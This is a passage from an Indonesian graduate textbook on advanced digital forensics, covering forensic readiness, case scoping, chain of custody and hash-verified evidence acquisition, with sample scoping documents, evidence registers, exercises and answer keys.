# BUKU AJAR

# ADVANCED DIGITAL FORENSICS

## MK-E-06 | Forensik Digital Lanjutan

---

**Program Studi:** Magister Terapan Forensik Digital dan Keamanan Siber
**Departemen:** Teknik Informatika dan Komputer
**Institusi:** Politeknik Elektronika Negeri Surabaya (PENS)
**Tahun:** 2025/2026

---

## METADATA MATA KULIAH

| Atribut | Keterangan |
|---|---|
| Kode Mata Kuliah | MK-E-06 / ELEKTIF-G1-G3 |
| Nama Mata Kuliah | Advanced Digital Forensics |
| Rumpun | Keilmuan Inti — Forensik Digital Lanjutan |
| Bobot SKS | T = 2, P = 1, Total = 3 SKS |
| Semester | 1 atau 3 (Pool Gasal; disarankan Semester 3 setelah MK-W-08) |
| Level Bloom | C5 (Evaluasi) |
| Prasyarat | MK-W-08 Digital Forensics (atau kompetensi ekuivalen) |
| Dosen Pengampu | Tim Dosen Program Studi Magister Terapan FDKS PENS |

---

## KATA PENGANTAR

Buku ajar ini dirancang untuk mahasiswa Program Studi Magister Terapan Forensik Digital dan Keamanan Siber yang telah menyelesaikan mata kuliah Digital Forensics dasar (MK-W-08). Advanced Digital Forensics (MK-E-06) adalah lanjutan langsung yang membawa mahasiswa ke tataran analisis yang lebih dalam: investigasi memori yang sedang berjalan, artefak perangkat mobile yang tersinkronisasi ke cloud, jejak aktivitas akun yang tersebar di berbagai layanan, deteksi teknik anti-forensics yang digunakan pelaku untuk menghapus jejaknya, dan akhirnya — sintesis semua temuan menjadi laporan ahli yang dapat dipertahankan di hadapan auditor, regulator, atau pengadilan.

Buku ini ditulis dari sudut pandang investigator senior yang bekerja di persimpangan antara teknis dan hukum. Setiap teknik dijelaskan tidak hanya dari perspektif "bagaimana melakukannya," tetapi juga "mengapa ini valid sebagai bukti," "apa batas akurasi dan interpretasinya," dan "apa konsekuensi hukum jika dilakukan tanpa otorisasi." Kompetensi teknis tanpa integritas prosedural menghasilkan bukti yang tidak dapat dipertahankan.

Prinsip yang mendasari seluruh buku ini: **forensik yang baik adalah forensik yang reproducible, defensible, dan jujur tentang keterbatasannya.**

---

## DESKRIPSI MATA KULIAH

Advanced Digital Forensics merupakan mata kuliah elektif lanjutan setelah Digital Forensics (MK-W-08). Mata kuliah ini memperdalam kemampuan investigasi bukti digital dengan fokus pada **memory forensics**, **mobile forensics**, **cloud forensics**, **anti-forensics detection**, **artefact correlation**, **timeline validation**, **evidence integrity**, **limitation analysis**, dan **expert-style reporting**.

Pembelajaran menggunakan pendekatan *case-based* dan *project-based* pada dataset legal, perangkat berotorisasi, dan lab terisolasi untuk memastikan kepatuhan etika, hukum, chain of custody, dan reproducibility.

Seluruh analisis wajib dilakukan pada **dataset legal, perangkat berotorisasi, lab terisolasi, atau image/dump yang disediakan dosen**. Tidak diizinkan melakukan akuisisi atau analisis perangkat/akun pihak ketiga tanpa izin tertulis.

---

## PETA OBE: CPL → IK → CPMK → Sub-CPMK → EVALUASI



---

## PETA KOMPETENSI MATA KULIAH



---

## PETA OBE LENGKAP

| Bab | Sub-CPMK | CPMK | Materi Utama | Evaluasi | Bobot |
|---|---|---|---|---|---|
| 1–3 | Sub-CPMK-1 | CPMK-1 | Forensic readiness, case scoping, CoC, triage | Eval-1 | 10% |
| 4–6 | Sub-CPMK-2 | CPMK-2 | Memory forensics: Volatility, process, IOC | Eval-2 | 25% |
| 7–9 | Sub-CPMK-3 | CPMK-3 | Mobile & cloud artefact analysis | Eval-3 | 20% |
| 10–11 | Sub-CPMK-4 | CPMK-4 | Anti-forensics, correlation, timeline | Eval-4 | 20% |
| 12–14 | Sub-CPMK-5 | CPMK-5 | Capstone: expert report, evidence pack | Eval-5/EAS | 25% |
| 15–16 | Pengayaan | — | Tren industri, QA lab, expert witness | — | 0% |

---

## PETUNJUK PENGGUNAAN BUKU

1. **Prasyarat wajib:** Buku ini mengasumsikan penguasaan konsep dari MK-W-08 Digital Forensics — akuisisi disk, chain of custody, file system analysis, dan pelaporan forensik dasar.
2. **Lingkungan lab:** Semua praktikum dilakukan menggunakan dataset yang disediakan dosen, public forensic challenge yang sah, atau milik mahasiswa sendiri dengan persetujuan eksplisit. Tidak ada analisis perangkat atau akun pihak ketiga.
3. **Diagram Mermaid:** Setiap bab memiliki minimal satu diagram. Diagram dirancang sebagai alat pembelajaran konseptual, bukan sekadar ilustrasi.
4. **Kunci jawaban:** Tersedia di bagian akhir setiap bab (Bagian 10) dan dirangkum dalam Kunci Jawaban Global.
5. **Keterbatasan analisis:** Setiap bab secara eksplisit membahas keterbatasan teknik dan tools yang digunakan — ini adalah bagian inti forensik lanjutan, bukan catatan kaki.

---

# BAB 1 — FORENSIC READINESS DAN ADVANCED CASE SCOPING

## 1. Capaian Pembelajaran Bab

Setelah mempelajari bab ini, mahasiswa mampu:
- Mengevaluasi kesiapan investigasi dari perspektif legal, teknis, dan prosedural
- Menyusun case scoping document yang mendefinisikan batas investigasi secara presisi
- Memahami konsep forensic hypothesis dan perannya dalam mengarahkan analisis
- Mengidentifikasi risiko hukum dan etika dalam investigasi forensik lanjutan

*Berkaitan dengan Sub-CPMK-1, Eval-1 (10%)*

## 2. Peta Konsep Bab

```mermaid
flowchart TD
    A[Forensic Readiness &\nAdvanced Case Scoping] --> B[Forensic Readiness]
    B --> B1["Pre-incident:\nlog policy, CoC procedure,\nevidence collection ready"]
    B --> B2["Post-incident:\nassess what is available\nvs. what is needed"]
    B --> B3["Readiness gap:\napa yang seharusnya ada\nbut missing?"]
    A --> C[Case Scoping]
    C --> C1["Scope definition:\nin-scope devices, accounts,\ntime window, jurisdiction"]
    C --> C2["Legal boundary:\notorisasi apa yang ada?\nsearch warrant, corporate policy?"]
    C --> C3["Forensic hypothesis:\napa yang diduga terjadi?\nbagaimana membuktikannya?"]
    C --> C4["Triage priority:\nartefak mana yang paling mungkin\nmengandung bukti relevan?"]
    A --> D[Chain of Custody Lanjutan]
    D --> D1["Evidence register:\nsetiap item: ID, hash, custodian,\ntransfer log"]
    D --> D2["Digital evidence handling:\nwrite-blocker, forensic copy,\nhash verification"]
    D --> D3["Multi-party custody:\nuntuk kasus yang melibatkan\npenyidik, pengacara, expert"]
    A --> E[Legal Framework Indonesia]
    E --> E1["UU ITE No. 11/2008 jo\nNo. 19/2016: bukti elektronik"]
    E --> E2["KUHAP Pasal 184:\njenis alat bukti yang sah"]
    E --> E3["UU PDP No. 27/2022:\nbatas privasi dalam investigasi"]
```

## 3. Pengantar Kontekstual

Investigasi forensik digital yang gagal di pengadilan sering bukan karena kurangnya bukti teknis, melainkan karena prosedur yang tidak diikuti — chain of custody yang terputus, akuisisi tanpa otorisasi yang tepat, atau laporan yang tidak dapat direproduksi. Forensic readiness adalah investasi sebelum insiden: memastikan bahwa ketika insiden terjadi, bukti dapat dikumpulkan dengan cara yang defensible. Case scoping adalah langkah pertama investigasi: mendefinisikan dengan presisi apa yang akan diselidiki, dengan otorisasi apa, dalam batas waktu berapa lama, dan dengan hipotesis apa.

## 4. Landasan Teori

### 4.1 Forensic Readiness: Definisi dan Komponen

**Forensic Readiness** (Rowlingson, 2004) adalah kemampuan organisasi untuk memaksimalkan penggunaan bukti digital dengan biaya minimal. Ini melibatkan persiapan sebelum insiden sehingga bukti dapat dikumpulkan secara legal dan efisien ketika diperlukan.

**Komponen forensic readiness:**

1. **Logging yang memadai:** Sistem harus menghasilkan log yang cukup untuk investigasi. Log yang tidak ada tidak dapat dipulihkan.
2. **Prosedur akuisisi yang terdefinisi:** Tim respons harus tahu langkah eksak untuk mengamankan bukti digital sebelum insiden.
3. **Chain of custody (CoC) yang siap:** Formulir, prosedur, dan tanggung jawab sudah ditentukan.
4. **Penyimpanan bukti yang aman:** Evidence storage dengan akses terkontrol dan audit trail.
5. **Legal review:** Prosedur telah divalidasi oleh bagian hukum untuk kepatuhan regulasi.

**Forensic readiness gap analysis:**
```markdown
| Komponen | Status Ideal | Status Aktual | Gap | Risiko |
|---|---|---|---|---|
| System logging | Semua kritikal ter-log | Hanya web server log | Missing: auth, DB, endpoint | Bukti kritikal mungkin hilang |
| CoC procedure | Prosedur tertulis + terlatih | Belum ada prosedur | Tidak ada | Bukti bisa dianggap tidak valid |
| Write-blocker | Tersedia di evidence room | Tidak ada | Tidak ada hardware | Risiko modifikasi tidak sengaja |
| Hash baseline | Semua server di-hash | Tidak ada | Tidak ada | Tidak bisa verifikasi integritas |
```

### 4.2 Case Scoping: Komponen dan Template

**Case scoping** mendefinisikan batas investigasi secara eksplisit. Ini adalah kontrak antara investigator, klien, dan (jika ada) otoritas hukum tentang apa yang akan dan tidak akan diselidiki.

**Komponen case scoping document:**

```markdown
## CASE SCOPING DOCUMENT

### 1. Identifikasi Kasus
Case Number  : CF-2025-001
Tanggal      : 2025-11-01
Investigator : [Nama / Unit]
Supervisor   : [Nama]
Klien/Organisasi: PT. XYZ

### 2. Deskripsi Insiden
Ringkasan    : Diduga terjadi pencurian data customer database pada 29-30 Oktober 2025.
               Beberapa akun admin menunjukkan aktivitas tidak biasa pada periode tersebut.

### 3. Legal Authorization
Jenis otorisasi     : □ Internal IT policy □ Management authorization □ Search warrant
Nomor/Ref dokumen   : AUTH-2025-1101
Otoritas otorisasi  : Direktur IT, PT. XYZ
Batas otorisasi     : Analisis device dan akun yang terdaftar atas nama perusahaan.
                      TIDAK termasuk: analisis perangkat pribadi karyawan tanpa persetujuan tambahan.

### 4. Scope In dan Out
IN-SCOPE:
  - Workstation milik PT. XYZ: WKST-001, WKST-005, WKST-012
  - Server: DB-PROD-01, WEB-PROD-01
  - Akun Active Directory: admin01, admin02, sysadmin
  - Log: Windows Event Log, Database audit log
  - Periode: 25 Oktober 2025 – 01 November 2025

OUT-SCOPE:
  - Perangkat pribadi karyawan (tidak ada consent atau warrant)
  - Email pribadi (hanya email corporate dalam scope)
  - Backup sebelum 25 Oktober 2025 (di luar periode insiden)

### 5. Forensic Hypothesis
Hipotesis Utama  : Akun admin01 atau admin02 digunakan untuk exfiltrate database
                   customer menggunakan skrip otomatis pada 29-30 Oktober 2025.
Hipotesis Alternatif: Insidernya bukan admin — mungkin credential phishing.
Bukti yang Dibutuhkan:
  - Bukti akses database pada periode tersebut
  - Bukti transfer data keluar network (log, DNS, proxy)
  - Bukti penggunaan akun admin (login event, command history)

### 6. Advanced Triage Priority
Prioritas 1: Memory dump WKST-001 (admin01 terakhir login di sini)
Prioritas 2: Database audit log DB-PROD-01 (periode 29-30 Okt)
Prioritas 3: Proxy/firewall log (untuk detect exfiltration)
Prioritas 4: Windows Event Log (4624/4672 untuk login events)

### 7. Keterbatasan yang Diketahui
- Database audit log hanya disimpan 30 hari (mungkin sudah overwrite sebagian)
- Tidak ada full PCAP — hanya metadata jaringan yang tersedia
- Memory dump tidak mungkin untuk server yang sudah di-restart pada 31 Oktober
```

### 4.3 Chain of Custody Lanjutan

Chain of custody (CoC) adalah dokumentasi tidak terputus tentang siapa yang memegang bukti, kapan, dan dalam kondisi apa. Dalam kasus yang mungkin berujung ke pengadilan, CoC adalah syarat admissibilitas bukti.

**Evidence register digital:**
```markdown
## EVIDENCE REGISTER

| EID | Deskripsi | Hash (SHA-256) | Diperoleh | Oleh | Metode | Lokasi Simpan |
|---|---|---|---|---|---|---|
| E001 | RAM dump WKST-001 | a3b4c5d6... | 2025-11-01 09:15 | Investigator-A | Forensic acquisition | Evidence Room, Slot 1 |
| E002 | Forensic image HDD WKST-001 | e7f8a9b0... | 2025-11-01 10:30 | Investigator-A | dd if=/dev/sda | Evidence Room, Slot 2 |
| E003 | Database audit log export | 1c2d3e4f... | 2025-11-01 11:00 | DBA-Mr.X | mysqldump | LMS + Evidence Room |
```

**Prinsip penanganan bukti digital:**
1. **Jangan modifikasi asli:** Gunakan write-blocker untuk media penyimpanan; kerja pada forensic copy.
2. **Hash sebelum dan sesudah:** Verifikasi bahwa copy identik dengan asli.
3. **Dokumentasikan semua aksi:** Setiap langkah dalam analisis harus dicatat.
4. **Akses terbatas:** Hanya investigator yang ditugaskan yang boleh mengakses bukti.

### 4.4 Legal Framework: Bukti Elektronik di Indonesia

**UU ITE No. 11/2008 jo No. 19/2016:**
- Pasal 5: Informasi elektronik dan/atau dokumen elektronik dapat dijadikan alat bukti hukum yang sah.
- Pasal 6: Syarat kekuatan hukum: dapat diakses, ditampilkan, dijamin keutuhannya, dan dapat dipertanggungjawabkan.

**KUHAP Pasal 184:** Alat bukti yang sah meliputi keterangan saksi, keterangan ahli, surat, petunjuk, dan keterangan terdakwa. Bukti elektronik masuk dalam kategori "surat" atau "petunjuk" dengan syarat autentisitas.

**Implikasi untuk investigator forensik:**
- Hash (SHA-256 atau lebih kuat) adalah cara membuktikan integritas bukti digital.
- Laporan forensik yang disusun oleh investigator berperan sebagai "keterangan ahli."
- Akuisisi tanpa otorisasi dapat menjadikan bukti tidak admissible atau bahkan menjerat investigator.

## 5. Model atau Arsitektur



## 6. Contoh Terapan

**Skenario:** PT. Mandiri Digital melaporkan bahwa data pelanggan senilai 500.000 record diduga bocor. Database admin menemukan query eksesif pada server PostgreSQL pada hari Senin dini hari. Tim IT security meminta investigator forensik untuk melakukan analisis.

**Kasus scoping yang benar:**
- **Otorisasi:** Surat tugas dari Direktur IT + persetujuan Legal Counsel.
- **In-scope:** Server DB-PROD (PostgreSQL), workstation admin yang log-in pada periode tersebut, active directory log, firewall log.
- **Out-scope:** Perangkat pribadi karyawan, email pribadi.
- **Hipotesis:** Credential admin dikompromis untuk akses query mass-export. Alternatif: insider threat.
- **Triage prioritas:** (1) Memory dump server DB jika masih running; (2) PostgreSQL pg_log; (3) Auth log; (4) Firewall/proxy log untuk detect egress.

**Kesalahan umum yang dihindari:**
- Mengakses server production tanpa izin tertulis — meski "bermaksud membantu."
- Melewati chain of custody karena "terburu-buru" — hash harus diverifikasi meskipun tekanan waktu tinggi.
- Scope yang terlalu luas — mengakses data di luar yang diotorisasi dapat menjerat investigator.

## 7. Praktikum atau Aktivitas Terarah

**Tujuan:** Menyusun case scoping document dan evidence register untuk skenario yang diberikan dosen.

**Aktivitas:**
1. Dosen menyediakan skenario insiden fiktif (termasuk: laporan awal, daftar device, dan otorisasi manajemen).
2. Mahasiswa menyusun: (a) case scoping document lengkap; (b) forensic hypothesis dengan minimal 2 hipotesis; (c) triage priority list dengan justifikasi; (d) evidence register template (kosong, siap diisi).
3. Review sesama mahasiswa: apakah scope cukup presisi? Apakah ada celah hukum?

**Output:** Scoping memo + evidence register template — bagian dari Eval-1.

**Catatan etika:** Aktivitas ini sepenuhnya berbasis skenario fiktif. Tidak ada akses ke sistem nyata.

## 8. Latihan Pemahaman

1. **(C5)** Seorang investigator mendapatkan akses ke workstation karyawan dan menemukan artefak penting, namun kemudian diketahui bahwa otorisasi yang diberikan hanya mencakup server, bukan workstation. Evaluasi implikasi hukum dan forensik dari situasi ini. Apakah bukti yang ditemukan masih dapat digunakan?

2. **(C4)** Jelaskan mengapa "order of volatility" penting dalam advanced triage. Apa yang terjadi jika investigator memprioritaskan disk imaging sebelum RAM dump pada sistem yang masih running?

3. **(C3)** Apa perbedaan antara forensic hypothesis dan assumption? Mengapa investigator harus bekerja dengan hipotesis yang dapat difalsifikasi, bukan asumsi yang dikonfirmasi?

4. **(C4)** Sebuah organisasi tidak memiliki forensic readiness — tidak ada logging yang memadai, tidak ada prosedur CoC, dan tidak ada evidence storage. Insiden terjadi. Apa dampak langsung dari ketiadaan forensic readiness terhadap kemampuan investigasi?

5. **(C3)** Dalam UU ITE Indonesia, bukti elektronik harus memenuhi syarat apa untuk dapat dijadikan alat bukti yang sah di pengadilan? Apa yang menjadi tanggung jawab investigator forensik untuk memenuhi syarat tersebut?

## 9. Latihan Terapan / Studi Kasus

**Kasus A:** Sebuah rumah sakit melaporkan bahwa rekam medis digital 10.000 pasien mungkin telah diakses secara tidak sah. CISO meminta Anda melakukan forensic investigation. Namun: (1) sistem EMR (Electronic Medical Record) tidak memiliki audit logging yang diaktifkan; (2) satu server EMR sudah di-reboot dua kali sejak dugaan akses; (3) karena ini adalah rekam medis, ada pertanyaan privasi yang sangat ketat. Susun: (a) case scoping document untuk situasi ini; (b) identifikasi minimum 3 keterbatasan investigasi yang muncul dari kondisi ini; (c) rekomendasi jangka pendek (72 jam) untuk memaksimalkan bukti yang tersisa; (d) saran forensic readiness improvement untuk mencegah masalah yang sama di masa depan.

## 10. Kunci Jawaban dan Pembahasan

**Soal 1:** Implikasi hukum: akses ke workstation yang di luar scope otorisasi berpotensi dianggap sebagai unauthorized access, bahkan oleh investigator yang beritikad baik. Dalam hukum Indonesia (UU ITE Pasal 30), mengakses sistem komputer tanpa hak dapat dipidana. Dalam konteks hukum bukti: bukti yang diperoleh dengan cara yang tidak sah (illegal search/seizure) dapat ditolak oleh hakim (fruit of the poisonous tree doctrine). Langkah yang benar: hentikan analisis di workstation tersebut segera; dokumentasikan apa yang ditemukan dan bagaimana; laporkan kepada supervisor; dapatkan otorisasi tambahan dari klien/otoritas hukum sebelum melanjutkan. Tidak pernah "melanjutkan karena sudah terlanjur."

**Soal 2:** Order of volatility memprioritaskan pengumpulan data yang paling cepat hilang: RAM (hilang saat power off) > swap/page file > running processes > network connections > disk. Jika investigator memprioritaskan disk imaging pada sistem yang masih running: (a) RAM dump tidak dapat diambil setelah reboot — kehilangan: running processes, network connections, decrypted keys, credential dalam memori, dan malware yang hanya ada di memori (fileless malware); (b) waktu yang dihabiskan untuk disk imaging (bisa berjam-jam) memberikan kesempatan bagi attacker atau proses otomatis untuk menghapus jejak; (c) untuk kasus memori-sentris (cryptomining, RAT, fileless malware), kehilangan RAM adalah kehilangan bukti kritis.

**Soal 3:** Hypothesis = pernyataan testable yang dapat dibuktikan salah oleh bukti. Assumption = keyakinan yang diterima sebagai benar tanpa pembuktian. Investigator yang bekerja dengan asumsi ("pasti si A yang melakukan") cenderung menginterpretasikan bukti secara bias — hanya melihat apa yang mendukung kesimpulan yang sudah ada, dan mengabaikan bukti yang bertentangan. Hypothesis yang dapat difalsifikasi memaksa investigator untuk aktif mencari bukti yang dapat membantah — ini menghasilkan analisis yang lebih objektif dan dapat dipertahankan. Contoh: "Hipotesis: Exfiltration terjadi melalui email" → harus mencari bukti yang mendukung DAN bukti yang membantah (tidak ada email besar keluar = bukti hipotesis tidak terdukung → cari vektor lain).

**Soal 4:** Dampak langsung ketiadaan forensic readiness: (a) Logging tidak ada → tidak bisa menentukan apa yang terjadi, kapan, dan siapa; (b) Tidak ada prosedur CoC → bukti yang dikumpulkan mungkin tidak admissible karena integritas tidak dapat dibuktikan; (c) Tidak ada evidence storage → bukti bisa terkontaminasi, hilang, atau diakses pihak yang tidak berwenang; (d) Hasilnya: investigasi tidak bisa menentukan scope insiden, tidak bisa membuktikan apakah ada data exfiltration, dan tidak bisa memberikan bukti yang dapat digunakan untuk tindakan hukum atau asuransi.

**Soal 5:** UU ITE Pasal 5-6 mensyaratkan bukti elektronik: dapat diakses (accessible), dapat ditampilkan (displayable), dijamin keutuhannya (integrity guaranteed), dan dapat dipertanggungjawabkan (accountable/authenticated). Tanggung jawab investigator: (a) Hash (SHA-256): membuktikan keutuhan — copy identik dengan asli; (b) Chain of custody: membuktikan tidak ada modifikasi sejak akuisisi; (c) Dokumentasi tools dan metode: membuktikan bahwa proses dapat direproduksi; (d) Laporan yang ditandatangani sebagai "keterangan ahli" membawa tanggung jawab hukum.

**Studi Kasus A:** (a) Scoping: in-scope = EMR server yang ada, backup log jika tersedia, network log (switch/firewall), akun admin EMR; out-scope = konten rekam medis itu sendiri (hanya metadata/access log yang diperlukan, bukan isi rekam medis — sesuai UU PDP); hipotesis = credential admin dikompromis atau insider threat. (b) Keterbatasan: EMR tanpa audit logging → tidak bisa membuktikan akses secara langsung; server sudah di-reboot 2x → RAM/volatile data hilang; rekam medis adalah data sangat sensitif → setiap akses analisis harus minimal dan terdokumentasi dengan ketat. (c) 72 jam pertama: preserve log yang tersisa di server (web log, auth log, system log meskipun terbatas); ambil network metadata dari switch/firewall (port mirror logs jika ada); cek backup/snapshot yang mungkin ada sebelum reboot; cek EDR/antivirus log jika terpasang. (d) Forensic readiness improvement: aktifkan database audit logging segera; implementasikan SIEM untuk agregasi log; SOP CoC dan prosedur akuisisi; regular backup yang terverifikasi dan immutable.

## 11. Ringkasan Bab

Forensic readiness adalah fondasi investigasi yang defensible: logging yang tepat, prosedur CoC yang terdefinisi, dan evidence storage yang aman harus ada sebelum insiden. Case scoping mendefinisikan batas investigasi dengan presisi — in-scope, out-scope, otorisasi, dan forensic hypothesis. Chain of custody adalah dokumen tidak terputus yang membuktikan integritas bukti sejak akuisisi hingga presentasi di pengadilan. Dalam hukum Indonesia, bukti elektronik harus memenuhi syarat UU ITE Pasal 5-6 untuk admissible.

## 12. Refleksi Profesional

1. Investigator sering berada dalam tekanan untuk "bergerak cepat" saat insiden terjadi. Namun terburu-buru dalam prosedur akuisisi dan CoC dapat merusak admissibilitas bukti. Bagaimana Anda mengelola tekanan waktu dari manajemen sambil tetap memastikan prosedur forensik yang benar diikuti? Apa yang Anda komunikasikan kepada stakeholder non-teknis tentang mengapa "melakukan dengan benar" lebih penting dari "melakukan dengan cepat"?


---

# BAB 2 — CHAIN OF CUSTODY LANJUTAN DAN EVIDENCE INTEGRITY

## 1. Capaian Pembelajaran Bab

Setelah mempelajari bab ini, mahasiswa mampu:
- Merancang prosedur chain of custody untuk berbagai jenis bukti digital
- Memverifikasi integritas bukti menggunakan cryptographic hash
- Mengidentifikasi titik kerentanan dalam CoC dan cara mitigasinya
- Mendokumentasikan transfer dan akses bukti sesuai standar forensik

*Berkaitan dengan Sub-CPMK-1, Eval-1 (10%)*

## 2. Peta Konsep Bab

```mermaid
flowchart TD
    A[Chain of Custody Lanjutan] --> B[Akuisisi]
    B --> B1["Order of volatility:\nRAM → running processes\n→ disk → backup → archive"]
    B --> B2["Write-blocker:\nhardware vs software;\nkapan masing-masing digunakan"]
    B --> B3["Forensic copy:\ndd, dc3dd, dcfldd, FTK Imager\nvs. logical copy"]
    B --> B4["Hash verification:\nsha256sum sebelum DAN sesudah\n→ membuktikan identik"]
    A --> C[Evidence Register]
    C --> C1["Unique EID per item"]
    C --> C2["Metadata lengkap:\nwaktu, custodian, metode,\ntool+versi, hash"]
    C --> C3["Transfer log:\nsetiap perpindahan custody\nharus dicatat"]
    C --> C4["Access log:\nsiapa membuka/menganalisis\ndan kapan"]
    A --> D[Multi-Custodian Scenario]
    D --> D1["Handoff procedure:\ntanda tangan kedua pihak"]
    D --> D2["Lab internal:\nsiapa yang bisa akses\nevidence room?"]
    D --> D3["Expert witness:\nbukti yang dikirim ke ahli\nharus re-hash saat diterima"]
    A --> E[Integrity Verification]
    E --> E1["Hash mismatch:\napa artinya? apa yang dilakukan?"]
    E --> E2["Seal & label:\nphysical evidence control"]
    E --> E3["Working copy:\nalways work on copy, not original"]
```

## 3. Pengantar Kontekstual

Dalam persidangan kasus kejahatan komputer di Indonesia yang semakin meningkat pasca berlakunya UU ITE, pertanyaan pertama yang sering diajukan pengacara kepada investigator forensik adalah: "Bagaimana Anda memastikan bahwa data yang Anda analisis tidak berubah sejak dikumpulkan?" Chain of custody yang terdokumentasi dengan baik dan hash yang terverifikasi adalah jawaban teknis terhadap pertanyaan ini. Bab ini membahas implementasi praktis CoC dalam investigasi forensik lanjutan.

## 4. Landasan Teori

### 4.1 Order of Volatility dalam Praktik

RFC 3227 (Guidelines for Evidence Collection and Archiving) mendefinisikan urutan akuisisi berdasarkan volatilitas:

```
1. Registers, cache (sangat volatil — nanoseconds)
2. Routing table, ARP cache, process table, kernel stats, RAM
3. Temporary file systems (swap/page file)
4. Disk dan removable media (persisten)
5. Remote logging dan monitoring data
6. Physical configuration, network topology
7. Archival media (tape, backup) — paling tidak volatil
```

**Implikasi praktis:**
```bash
# URUTAN YANG BENAR saat tiba di sistem yang masih running:

# 1. PERTAMA: Dokumentasikan state (tanpa modifikasi)
date && uptime && netstat -an && ps aux > initial_state.txt

# 2. Akuisisi RAM (sebelum shutdown!)
# Gunakan tool seperti LiME (Linux) atau WinPmem (Windows)
# dalam context lab yang diotorisasi

# 3. Preserve volatile network state
netstat -anb > network_connections.txt   # Windows
ss -antp > network_connections.txt       # Linux

# 4. Preserve running processes
tasklist /v > process_list.txt           # Windows
ps auxf > process_list.txt               # Linux

# 5. BARU KEMUDIAN disk imaging
# (menggunakan write-blocker untuk media fisik)
```

### 4.2 Hash Verification dalam Praktik

```bash
# Workflow hash verification yang benar:

# Langkah 1: Hash source sebelum imaging
sha256sum /dev/sdb > source_hash.txt
# Output: a3b4c5d6e7f8... /dev/sdb

# Langkah 2: Buat forensic image
dd if=/dev/sdb of=/evidence/wkst001.img bs=4096 status=progress
# ATAU menggunakan dc3dd yang auto-hash:
dc3dd if=/dev/sdb of=/evidence/wkst001.img hash=sha256 log=/evidence/wkst001.log

# Langkah 3: Hash hasil image
sha256sum /evidence/wkst001.img > image_hash.txt

# Langkah 4: Verifikasi kecocokan
# Hash source dan image HARUS identik
diff source_hash.txt image_hash.txt
# Jika tidak ada output dari diff = identik = image valid

# Langkah 5: Dokumentasikan dalam evidence register
echo "EID: E001 | Source hash: $(cat source_hash.txt) | Image hash: $(cat image_hash.txt) | Match: YES | Time: $(date) | Tool: dc3dd | Investigator: [Nama]" >> evidence_register.txt
```

**Mengapa hash identik membuktikan integritas:**

SHA-256 adalah fungsi hash kriptografi yang memiliki sifat: perubahan satu bit pun pada data akan menghasilkan hash yang sepenuhnya berbeda. Jika `sha256(disk_asli) == sha256(forensic_copy)`, maka secara kriptografis terbukti bahwa copy adalah identik dengan aslinya.

### 4.3 Evidence Register: Format Lengkap

```markdown
## EVIDENCE REGISTER — Case CF-2025-001

### Item EID-001
| Field | Nilai |
|---|---|
| Evidence ID | EID-001 |
| Deskripsi | RAM Dump — WKST-001 (HP EliteBook, S/N: XYZ123) |
| Ukuran | 16 GB |
| Format | Raw (.mem) |
| Hash SHA-256 (source) | a3b4c5d6e7f890ab1c2d3e4f5a6b7c8d9e0f1a2b3c4d5e6f7a8b9c0d1e2f3a4 |
| Hash SHA-256 (copy) | a3b4c5d6e7f890ab1c2d3e4f5a6b7c8d9e0f1a2b3c4d5e6f7a8b9c0d1e2f3a4 |
| Hash Match | YES |
| Waktu Akuisisi | 2025-11-01 09:15:32 WIB |
| Diperoleh Dari | WKST-001, ruang kerja admin01, lantai 3 PT. XYZ |
| Metode Akuisisi | WinPmem v3.3 via USB lab-only |
| Tool + Versi | WinPmem 3.3.0; SHA-256 (built-in) |
| Custodian Awal | Investigator-A (Nama Lengkap) |

### Transfer Log EID-001
| Tanggal | Dari | Kepada | Alasan | Tanda Tangan |
|---|---|---|---|---|
| 2025-11-01 09:30 | Investigator-A | Evidence Room (kunci: Supervisor-B) | Secure storage | [TTD] |
| 2025-11-01 14:00 | Evidence Room | Investigator-A (lab forensik) | Analisis | [TTD] |
| 2025-11-01 18:00 | Investigator-A | Evidence Room | Selesai analisis sesi 1 | [TTD] |

### Access Log EID-001
| Tanggal | Pihak | Tujuan | Durasi | Catatan |
|---|---|---|---|---|
| 2025-11-01 14:00-18:00 | Investigator-A | Memory analysis dengan Volatility | 4 jam | Working copy digunakan |
```

### 4.4 Working Copy: Prinsip dan Implementasi

Investigator tidak pernah bekerja langsung pada evidence asli (original). Selalu buat working copy dari forensic image, dan kerja pada working copy tersebut.

```bash
